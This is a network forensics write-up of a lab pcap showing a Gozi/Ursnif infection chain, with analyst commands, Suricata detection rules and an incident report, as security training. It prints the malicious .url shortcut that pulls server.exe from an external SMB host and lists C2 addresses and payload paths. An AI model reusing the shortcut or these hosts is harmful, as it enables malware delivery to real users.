




---

author: @linkavych
date: 2023-03-20
malware: Gozi/ISFB

---

# Malware Traffic Analysis  - Unit42 Quiz - March 2023

PCAP: https://github.com/pan-unit42/Wireshark-quizzes/raw/main/2023-03-Unit42-Wireshark-quiz.pcap.zip

## Situation

Unknown. I pulled the above PCAP on 2023-03-19, but no assocated Quiz post from Unit42 or @malware_traffic has
been posted to this point. As a result, I'm just going to examine the PCAP as best I can - mainly
from the command line - and establish what I think is occuring.

## Methodology

Brad ([@malware_traffic](https://twitter.com/malware_traffic)) has been publishing Wireshark [quizes
and tutorials](https://www.malware-traffic-analysis.net/training-exercises.html) for some time now. 
For 2023, he has moved most of these quizzes to the [Unit42 Blog](https://unit42.paloaltonetworks.com/).

In general, the quizzes are designed to provide security professionals the opportunity 
to analyze network traffic created by various malware families in a controlled environment.
The tool of choice is, of course, Wireshark, but I have recently been using several other tools
to examine the pcaps.

- [tcpdump](https://linux.die.net/man/8/tcpdump) - dump traffic on a network
- [RITA](https://github.com/activecm/rita) - Real Intelligence Threat Analytics by [Active Countermeasures](https://www.activecountermeasures.com/free-tools/rita/)
- [zeek](https://zeek.org/) - Network Security Monitoring tool
- [suricata](https://suricata.io/) - Threat detection software

To that end, I will continue that here with the March quiz, and maybe spin up Active Countermeasures'
[Community Edition of AC-Hunter](https://www.activecountermeasures.com/ac-hunter/) to examine the pcap as well.

## Understanding the PCAP

First thing is to understand the pcap we are working with. In this case, `capinfos`
can give us a basic overview of the pcap.

```bash
$ TZ=UTC capinfos ../2023-03-Unit42-Wireshark-quiz.pcap

File name:           ../2023-03-Unit42-Wireshark-quiz.pcap                                                                                                                                                          │~
File type:           Wireshark/tcpdump/... - pcap                                                                                                                                                                   │~
File encapsulation:  Ethernet                                                                                                                                                                                       │~
File timestamp precision:  microseconds (6)                                                                                                                                                                         │~
Packet size limit:   file hdr: 65535 bytes                                                                                                                                                                          │~
Number of packets:   9,936                                                                                                                                                                                          │~
File size:           5,949 kB                                                                                                                                                                                       │~
Data size:           5,790 kB                                                                                                                                                                                       │~
Capture duration:    1987.221065 seconds                                                                                                                                                                            │~
First packet time:   2023-03-07 02:01:17.375429                                                                                                                                                                     │~
Last packet time:    2023-03-07 02:34:24.596494                                                                                                                                                                     │~
Data byte rate:      2,913 bytes/s                                                                                                                                                                                  │~
Data bit rate:       23 kbps                                                                                                                                                                                        │~
Average packet size: 582.74 bytes                                                                                                                                                                                   │~
Average packet rate: 4 packets/s                                                                                                                                                                                    │~
SHA256:              68e3a9aae58a3891cb8166d4ac9d98ab867b425c0a1b6cab7613ad4a0d4913b9                                                                                                                               │~
RIPEMD160:           390943444f6dac9df0e277ca6a561559590276b0                                                                                                                                                       │~
SHA1:                1e501b8cb2bd5afff0484db99e9e0ced6f149c88                                                                                                                                                       │~
Strict time order:   True                                                                                                                                                                                           │~
Number of interfaces in file: 1                                                                                                                                                                                     │~
Interface #0 info:                                                                                                                                                                                                  │~
                     Encapsulation = Ethernet (1 - ether)                                                                                                                                                           │~
                     Capture length = 65535                                                                                                                                                                         │~
                     Time precision = microseconds (6)                                                                                                                                                              │~
                     Time ticks per second = 1000000                                                                                                                                                                │~
                     Number of stat entries = 0                                                                                                                                                                     │~
                     Number of packets = 9936
```

From this we can quickly see the number of packets captured (9936), and the time range
for the capture itself (converted to UTC): 2023-03-07 02:01 - 02:34. Roughly a 30 minute
packet capture in this environment.

## Making Sense of the Network

The next thing to establish is roughly what the network looks like, and the services
that may be on offer internally. In Wireshark we can quickly navigate to the statistics tab
and gather much of this information. With command line tools this takes a bit more manual work,
but can also be scripted for use on much larger packet capture files.

```bash
$ tcpdump -r quiz.pcap -nt | head
```

A quick look at the first few packets gives a general sense of the basics of this network:

- Network CIDR: 172.16.1.0/24
- Domain Controller: 172.16.1.16
- User Host: 172.16.1.137

The Domain Controller and User host are based on my educated guess that this is a Windows Active Directory environment,
which is typical for these challenges and makes sense for most malware.

Now, we can check more details on the services being offered in the network:

```bash
$ tcpdump -r quiz.pcap -nt 'src host 172.16.1 and tcp[13] = 0x12'
```

This command will output all SYN-ACK packets being sent FROM our internal network.
We can focus on the service ports with a bit of command line kung fu:

```bash
$ tcpdump -r quiz.pcap -nt 'src host 172.16.1 and tcp[13] = 0x12' | cut -f 2 -d ' ' | cut -f 5 -d '.' | sort | uniq -c | sort -nr

     31 88
     19 389
      9 49668
      7 445
      7 135
      6 139
      3 49680
```
The results confirm that `172.16.1.16` is serviing as the Domain Controller based  on the services
it is offering: kerberos (88), smb (445, 139) LDAP (389), RCP (135). The two high ports (49668 and 49680) are interesting
and uncommon for a Domain Controller to be responding from to another internal host.

Examining the details of the NetBios traffic on port 139 we can get some additional information about 
the victim network:

```bash
$ tcpdump -ntr quiz.pcap 'src host 172.16.1.16 and tcp port 139' -X
```

The `-X` option with `tcpdump` will gives us the bytes and an ASCII representation of those
bytes from the packet. In this case, I am trying to determine the domain the network is using, and any other useful information:



- Domain: pcapworkshop.net
- DC Hostname: pcapworkshop-DC
- DC Version: Windows Server 2022
- DC MAC: 00:1E:4F:27:B0:F9

Some additional details on the user workstation:

- User host: 172.16.1.137
- User MAC: 00:02:FB:34:B4:FA
- User Host name: DESKTOP-3GJL3PV
- Username: sherita.kolb

Most of the above can be found parsing either the NBNS traffic found in the capture, or the kerberos
authentication traffic - which is what I did in this case with `tcpdump` as shown in the screenshots below:

```bash
$ tcpdump -ntr quiz.pcap 'host 172.16.1.137 and port 88' -X | less -S
```






## Understanding Connections


I first want to understand the connections being made external to this network, and to what services.
To get a sense of that, we can again do some command line kung fu to get the information we
need using `tcpdump`.

```bash
$ tcpdump -ntr ../2023-03-Unit42-Wireshark-quiz.pcap '!dst host 172.16.1' | cut -f 4 -d ' ' | cut -f 1-4 -d '.' | sed 's/$://' | sort | uniq -c | sort -nr

    745 62.173.149.243
    511 142.251.143.164
    483 46.8.19.32
    204 62.173.140.103
    132 20.190.159.70
    125 95.101.20.176
     70 104.106.121.142
     56 62.173.138.138
     54 52.184.217.56
     54 142.251.143.195
     53 52.143.86.214
     49 4.231.128.59
     49 204.79.197.239
     48 142.251.143.206
     37 104.126.37.139
     35 142.251.143.163
     30 20.50.201.201
     27 142.251.143.142
     21 104.126.37.131
     18 20.189.173.3
     17 95.101.20.177
     17 52.182.143.208
     17 40.126.32.137
     17 40.126.31.72
     17 20.42.65.90
     17 104.126.37.145
     16 46.8.19.233
     14 62.173.140.94
     14 62.173.140.76
     14 46.8.19.86
     14 13.107.5.88
     13 52.109.13.62
     13 20.54.36.229
     13 20.42.65.92
     12 89.116.236.41
     12 5.44.45.201
     12 51.104.162.168
     12 31.41.44.60
     12 31.41.44.49
     12 204.79.197.203
     12 20.42.65.89
     11 20.67.219.150
     11 104.106.107.237
     10 52.168.117.169
     10 20.82.250.189
     10 173.254.32.85
      9 224.0.0.22:
      9 20.190.160.21
      9 193.233.175.18
      6 8.253.198.120
      6 8.238.136.254
      6 23.77.213.161
      5 255.255.255.255
      2 224.0.0.251
      1 224.0.0.252
```

```bash
$ tcpdump -ntr ../2023-03-Unit42-Wireshark-quiz.pcap '!dst host 172.16.1' | cut -f 4 -d ' '| sed 's/:$//' | cut -f 5 -d '.' | sort | uniq -c | sort -nr

 1555 443
   1148 80
    471 445
     15 111
      9
      2 5353
      1 68
      1 67
      1 5355
```

Between these two commands we can see the bulk of our external communication takes place over
ports 443 and 80 - meaning HTTP and HTTPs most likely. Additionally, we have some 
external traffic going to port 445 (SMB), which is probably not great.

We can quickly examine some of this traffic and see if there is anything unique. Starting with traffic going to port 445 external to 
our network:

```bash 
$ tcpdump -ntr quiz.pcap 'port 445 and !dst host 172.16.1' | cut -f 4 -d ' ' | sort | uniq -c

    471 46.8.19[.]32
```

Here we find 471 packets being sent to IP 46.8.19[.]32 over port 445 using SMB. Definitely
worth a closer look at this communication stream.

Now lets check out some of this HTTP traffic.

```bash
$ tcpdump -ntr ../2023-03-Unit42-Wireshark-quiz.pcap '!dst host 172.16.1 and port 80' | cut -f 4 -d ' ' | cut -f 1-4 -d '.'| sort | uniq -c | sort -nr
reading from file ../2023-03-Unit42-Wireshark-quiz.pcap, link-type EN10MB (Ethernet), snapshot length 65535
    745 62.173.149.243
    204 62.173.140.103
     56 62.173.138.138
     16 46.8.19.233
     14 62.173.140.94
     14 62.173.140.76
     14 46.8.19.86
     12 89.116.236.41
     12 5.44.45.201
     12 31.41.44.60
     12 31.41.44.49
     10 173.254.32.85
      9 193.233.175.18
      6 8.253.198.120
      6 8.238.136.254
      6 23.77.213.161
```

And the same for HTTPs:

```bash
$ tcpdump -ntr ../2023-03-Unit42-Wireshark-quiz.pcap '!dst host 172.16.1 and port 443' | cut -f 4 -d ' ' | cut -f 1-4 -d '.'| sort | uniq -c | sort -nr
reading from file ../2023-03-Unit42-Wireshark-quiz.pcap, link-type EN10MB (Ethernet), snapshot length 65535
    511 142.251.143.164
    132 20.190.159.70
    125 95.101.20.176
     70 104.106.121.142
     54 52.184.217.56
     54 142.251.143.195
     53 52.143.86.214
     49 4.231.128.59
     49 204.79.197.239
     48 142.251.143.206
     37 104.126.37.139
     35 142.251.143.163
     30 20.50.201.201
     27 142.251.143.142
     21 104.126.37.131
     18 20.189.173.3
     17 95.101.20.177
     17 52.182.143.208
     17 40.126.32.137
     17 40.126.31.72
     17 20.42.65.90
     17 104.126.37.145
     14 13.107.5.88
     13 52.109.13.62
     13 20.54.36.229
     13 20.42.65.92
     12 51.104.162.168
     12 204.79.197.203
     12 20.42.65.89
     11 20.67.219.150
     11 104.106.107.237
     10 52.168.117.169
     10 20.82.250.189
      9 20.190.160.21
```

From this we can already see our 'Top Talkers' for HTTP/s traffic, and can explore them in more detail.
Another look at DNS traffic shows only one unusual domain name was queried by the victim system: unapromo[.]com.


This is likely to be our starting point for investigating malicious activity, at least in this case. Checking the traffic to 
the resolved IP of 173.254.32[.]85 can show us some details.


Though only a brief interaction, we can see a ZIP archive was downloaded from this website - and is likely the cause of the follow-on
system compromise. How the user got to this link is unknown, based solely on the PCAP
data. We can extract this ZIP from the TCP stream in Wireshark and see what it has.

- File name: Cliente.zip
- Type: Zip Archive
- sha256: 33db5b2a2cc592fd10c65ba38396e4c7574ad78e786d78e8a3acdc93a90c3209
- Contents: Cliente.url

- File name: Cliente.url
- Type: MS Windows 95 Internet shortcut text (URL=<file://46.8.19[.]32/mise/server.exe>), ASCII text, with CRLF line terminators
- sha256: 340a759b1c1cdc22f6fac84044d072475e1630fbb7f47d96c4e18413de34d570
- Contents:

```text
[InternetShortcut]
IconIndex=70
HotKey=0
IDList=
URL=file://46.8.19[.]32/mise/server.exe
IconFile=C:\Windows\system32\SHELL32.dll
[{000214A0-0000-0000-C000-000000000046}]
Prop3=19,9
```

No we know the user downloaded a ZIP archive containing a Microsoft URL file which,
when double-clicked by the user, sends a SMB request to file://46.8.19[.]32/mise/server.exe.
This is likely to be the next stage of the malware infection chain, and we already saw this
IP address in traffic to port 445 for SMB. Unfortunately the total file transfer was not fully
captured as part of this pcap, so we cannot extract the full binary.

## Shifting Tools

To prep for using `rita` as part of this exercise, we'll parse the pcap with zeek using the following:

```bash
$ zeek -r quiz.pcap local "Log::default_rotation_interval = 1 day"
```

We'll also go ahead and run the PCAP through `suricata` to generate alerts:

```bash
$ sudo suricata -r quiz.pcap
```

Suricata's output into both `eve.json` and `fast.log` provide an ideal starting point for the investigation. 
I also like to grab the actual rules that fired on the pcap, so we can see what is triggering and if
everything makes sense.

```bash
# Grab the SIDS for the rules that fired
cat fast.log | cut -f 4 -d ' ' | sed 's/\[//' | sed 's/\]//' | cut -f 2 -d ':' | sort | uniq | sort  > alert_sids.txt 

# Gather the actual rules
cat alert_sids.txt | while read ALERT; do sudo egrep ${ALERT} /var/lib/suricata/rules/suricata.rules; done

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET HUNTING GENERIC SUSPICIOUS POST to Dotted Quad with Fake Browser 1"; flow:established,to_server; http.method; content:"POST"; http.user_agent; content:"|20|MSIE|20|"; nocase; fast_pattern; content:!"Mozilla/4.0 (compatible|3b 20|MSIE|20|6.0|3b 20|DynGate)"; content:!"Windows Live Messenger"; content:!"MS Web Services Client Protocol"; http.host; content:!"groove.microsoft.com"; pcre:"/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/"; http.request_body; content:!"grooveDNS|3a|//"; http.header_names; content:!"X-Requested-With"; nocase; content:!"Accept-Encoding"; content:!"Referer"; classtype:bad-unknown; sid:2018358; rev:10; metadata:created_at 2014_04_04, former_category INFO, updated_at 2020_11_03;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Ursnif Variant CnC Beacon 3"; flow:established,to_server; http.method; content:"GET"; http.header; content:"User-Agent|3a 20|Mozilla/"; depth:20; http.request_body; content:"|20 7c 20 22|0x"; fast_pattern; content:"_"; distance:0; content:"|22 20 7c 20|"; distance:0; http.header_names; content:!"Accept"; content:!"Referer|0d 0a|"; reference:md5,f48f626cf746a2c3c73182c752c481b6; reference:md5,8ab21ac9199d3ced2230924b90f49f0d; classtype:command-and-control; sid:2021814; rev:3; metadata:attack_target Client_Endpoint, created_at 2015_09_23, deployment Perimeter, former_category MALWARE, signature_severity Major, tag c2, updated_at 2020_06_01, mitre_tactic_id TA0011, mitre_tactic_name Command_And_Control, mitre_technique_id T1041, mitre_technique_name Exfiltration_Over_C2_Channel;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Ursnif Variant CnC Data Exfil"; flow:established,to_server; urilen:>125; http.method; content:"POST"; http.uri; pcre:"/\.[a-z]{3,4}$/"; http.request_body; content:"name=|22|upload_file|22 3b 20|filename=|22|"; fast_pattern; content:".bin|22 0d 0a|"; distance:4; within:7; http.header_names; content:!"Accept"; content:!"Referer|0d 0a|"; reference:md5,f870c0d62691fc39194922e4a59fdc1c; classtype:command-and-control; sid:2021830; rev:4; metadata:created_at 2015_09_24, former_category MALWARE, updated_at 2020_06_01;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET INFO Dotted Quad Host RAR Request"; flow:established,from_client; flowbits:isset,http.dottedquadhost; flowbits:set,http.dottedquadhost.rar; flowbits:unset,http.dottedquadhost; http.request_line; content:".rar HTTP/1."; nocase; fast_pattern; classtype:bad-unknown; sid:2027266; rev:4; metadata:attack_target Client_Endpoint, created_at 2019_04_23, deployment Perimeter, former_category INFO, performance_impact Significant, signature_severity Minor, updated_at 2020_04_08;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Ursnif Payload Request (cook32.rar)"; flow:established,to_server; http.method; content:"GET"; http.uri; content:"/cook32.rar"; endswith; fast_pattern; http.header_names; content:!"Referer"; reference:url,github.com/stamparm/maltrail/blob/master/trails/static/malware/ursnif.txt; reference:md5,c453d38c87a5df2fff509a4d9aba40e8; classtype:trojan-activity; sid:2031743; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, created_at 2021_03_02, former_category MALWARE, malware_family ursnif, updated_at 2021_03_02;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Ursnif Payload Request (cook64.rar)"; flow:established,to_server; http.method; content:"GET"; http.uri; content:"/cook64.rar"; endswith; fast_pattern; http.header_names; content:!"Referer"; reference:url,github.com/stamparm/maltrail/blob/master/trails/static/malware/ursnif.txt; reference:md5,c453d38c87a5df2fff509a4d9aba40e8; classtype:trojan-activity; sid:2031744; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, created_at 2021_03_02, deployment Perimeter, former_category MALWARE, malware_family ursnif, signature_severity Major, updated_at 2021_03_02;)

alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Ursnif Variant CnC Beacon - URI Struct M2 (_2F)"; flow:established,to_server; http.method; content:"GET"; http.uri; bsize:>150; content:"_2F"; fast_pattern; content:"_2F"; distance:0; content:"_2F"; distance:0; content:!"&"; content:!"?"; content:!"="; content:!"/tr/v1/"; startswith; http.host; dotprefix; content:!".surveymonkey.com"; endswith; content:!"cisco.com"; endswith; http.connection; content:"Keep-Alive"; http.header_names; content:!"|0d 0a|Referer|0d 0a|"; classtype:command-and-control; sid:2033204; rev:4; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, created_at 2021_06_29, deployment Perimeter, former_category MALWARE, malware_family ursnif, performance_impact Moderate, signature_severity Major, updated_at 2022_02_09;)

alert ip any any -> any any (msg:"SURICATA Applayer Detect protocol only one direction"; flow:established; app-layer-event:applayer_detect_protocol_only_one_direction; flowint:applayer.anomaly.count,+,1; classtype:protocol-command-decode; sid:2260002; rev:1;)
```

Based on the above, we can ignore the rule about one way traffic, but the others all 
require more immediate attention to understand.

But, before that, lets examine the zeek logs and increase our understanding of the traffic we have - 
which we now know has plenty of malicious traffic.

Checking the connections, we can sort based on length of connection to see who are top talkers were:

```bash
$ cat conn.2023-03-06-21-01-29.log | zeek-cut id.orig_h id.orig_p id.resp_h id.resp_p proto service duration orig_bytes resp_bytes | sort -k 7,7 -nr | column -t | head -n 10

172.16.1.137     57366  172.16.1.16      445    tcp  smb                      1127.587881  2761   2800
172.16.1.137     59376  46.8.19.32       445    tcp  ntlm,gssapi,dce_rpc,smb  380.115026   36120  628073
172.16.1.137     59392  62.173.138.138   80     tcp  http                     220.004307   56259  1734
172.16.1.137     59393  62.173.149.243   80     tcp  http                     219.306220   708    1606816
172.16.1.137     138    172.16.1.255     138    udp  -                        186.843859   3036   0
172.16.1.137     49781  46.8.19.233      80     tcp  http                     171.569139   1048   414
172.16.1.137     49788  5.44.45.201      80     tcp  http                     161.552980   507    207
172.16.1.137     59425  31.41.44.49      80     tcp  http                     160.972820   514    207
172.16.1.137     49790  62.173.140.76    80     tcp  http                     151.540031   1075   414
172.16.1.137     59407  62.173.140.94    80     tcp  http                     149.974886   531    207
```

The output shows plenty of SMB traffic internally and externally - which is worth investigating more, and we have seen the external connection before
and know it is probably evil. The other lengthy HTTP connections also stand out as 
worth investigating further. We can check the suricata logs to see if these IPs
were found there:

```bash
# Pull out any dotted quad type address from the log
$ egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' fast.log | sort | uniq

172[.]16[.]1[.]137
172[.]16[.]1[.]16
31[.]41[.]44[.]49
31[.]41[.]44[.]60
46[.]8[.]19[.]233
46[.]8[.]19[.]86
5[.]44[.]45[.]201
62[.]173[.]138[.]138
62[.]173[.]140[.]103
62[.]173[.]140[.]76
62[.]173[.]140[.]94
62[.]173[.]149[.]243
89[.]116[.]236[.]41
```

We can eliminate the two local network addresses, but we already see some of the IP
addresses matching from our earlier connections examination. Since it's mostly HTTP connections,
we can examine the traffic directly. Looking at the traffic in `tcpdump` we can see some patterns
with each `POST` sending a random filename plus `.bmp`, and each `GET` request is
requesting a `.gif` file. We can easily export these files with Wireshark.


All of the HTTP traffic appears to match this pattern: `GET/POST /drew/reallylongstring/shortstring.gib/bmp`.
It is within this pattern that the suricata alert for the Ursnif variant CnC beacon triggers.
In addition, taking a look at `files.log` generated by zeek, we see several files that have been downloaded by different servers
during this capture period.



Most of these files contain encrypted data used by Gozi, or exfiltrated from the network. The `.bin` files zeek is able to identify
are from `POST` requests sending data back to their servers. The `POST` requests are to a URI
terminating with `.bmp` but the `.bin` filename is in the metadata of the `POST` request.

## Summary

Unfortunately, RITA wasn't of much help with a pcap this small, but still a great tool to look at your data for 
beaconing activity and other information. However, with some `tcpdump`, `zeek`, and a touch of `Wireshark` we
were able to establish the basics of this infection chain:

Email -> Bad URL -> Downloaded ZIP -> Executed .URL File -> SMB Download Gozi server.exe -> C2 

All told, another great exercise in network traffic analysis of a common malware family operating today. Incident report follows.

## Incident Report

### Executive Summary

On 2023-03-07 at approximately 02:07 UTC the user, sherita.kolb, downloaded a ZIP archive
(Cliente.zip) from the website unapromo[.]com. The zip archive contained a `.url` file
which the user executed, downloading additional malware from the Gozi/Ursnift family via SMB
to 46.8.19[.]32 named `server.exe`. Following this download, C2 traffic is seen contacting multiple C2
servers to download additional data and exil information from the network.

### Victim Details

- Victim user: sherita.kolb
- Desktop: DESKTOP-3GJL3PV
- Victime MAC: 00:02:FB:34:B4:FA
- Victim IP: 172.16.1.137

### Indicators of Compromise

=== IP ADDRESSES ===

- 31[.]41[.]44[.]49 - GET /drew/[base64 with underscores].gif
- 31[.]41[.]44[.]60 - GET /drew/[base64 with underscores].gif
- 46[.]8[.]19[.]233 - GET /drew/[base64 with underscores].gif
- 46[.]8[.]19[.]86 - GET /drew/[base64 with underscores].gif
- 5[.]44[.]45[.]201 - GET /drew/[base64 with underscores].gif
- 62[.]173[.]138[.]138 - GET /drew/[base64 with underscores].gif and POST /drew/[base64 with underscores].bmp
- 62[.]173[.]140[.]103 - GET /drew/[base64 with underscores].jlk
- 62[.]173[.]140[.]76 - GET /drew/[base64 with underscores].gif
- 62[.]173[.]140[.]94 - GET /drew/[base64 with underscores].gif
- 62[.]173[.]149[.]243 - GET /stilak32.rar, GET /stilak64.rar, GET /cook32.rar, GET /cook64.rar
- 89[.]116[.]236[.]41 - GET /drew/[base64 with underscores].gif
- \\46[.]8[.]19[.]32/mise/server.exe - SMB traffic over port 445 - server.exe Gozi
- 173[.]254[.]32[.]85 - ZIP archive download


=== DOMAINS ===

- unapromo[.]com
